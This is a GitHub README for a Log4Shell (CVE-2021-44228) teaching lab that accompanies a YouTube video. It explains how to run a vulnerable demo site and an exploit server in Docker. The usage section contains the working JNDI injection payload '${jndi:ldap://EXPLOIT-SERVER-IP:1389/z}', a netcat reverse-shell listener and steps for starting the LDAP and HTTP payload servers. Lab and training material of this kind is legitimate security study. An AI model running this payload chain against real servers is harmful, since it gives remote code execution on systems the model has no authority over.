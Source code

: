 # log4shell
## Hello Friend
This repository hosts the code behind the [Youtube-Video "Hacking with Log4j Vulnerability (Log4Shell) - Mr. Robot Tribute"](https://www.youtube.com/watch?v=Cj1hY7WtvK8), covering the [log4shell](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228) vulnerability.

## Usage
### Docker
Either download the docker hosting the exxville group webiste and the exploit server
```
docker pull bughunterlabs/log4shell:exxville-group-website
docker pull bughunterlabs/log4shell:exploit-server
```
Or build the docker containers by yourself
```
cd exxville-group-website; bash build.sh
cd exploit-server; bash build.sh
```
### ExxVille Group Website
Run the ExxVille Group website:
```
cd exxville-group-website; bash run.sh
```
You should now be able to access the website at `localhost:8080`

### Exploit Server
Run the exploit server
```
cd exploit-server; bash run.sh
```
You can check the IP address of your running docker container with: 
```
docker inspect -f '{{range.NetworkSettings.Networks}}{{.IPAddress}}{{end}}' CONTAINER_NAME_OR_ID
```
Fill in the IP of the exploit server in `/exploit-server/gen_payload.py` and `exploit-server/ldap-server/ldap_server.sh`.
Generate the payload files:
```
cd /exploit-server; python3 gen_payload.py
```

Run the LDAP-server, HTTP-server and Netcat listener:
```
cd /exploit-server/ldap-server; bash ldap_server.sh
cd /exploit-server/http-server; bash http_server.sh
nc -lnvp 1337
```
Try to exploit the site with `${jndi:ldap://EXPLOIT-SERVER-IP:1389/z}`.

Good Luck and Happy Hacking

## Credits & Thanks
 * This repository was adapted from [log4j-shell-poc](https://github.com/kozmer/log4j-shell-poc) by [kozmer](https://github.com/kozmer)
 * [Enron Email Dataset](http://www.cs.cmu.edu/~enron/)
 * [SecLists](https://github.com/danielmiessler/SecLists)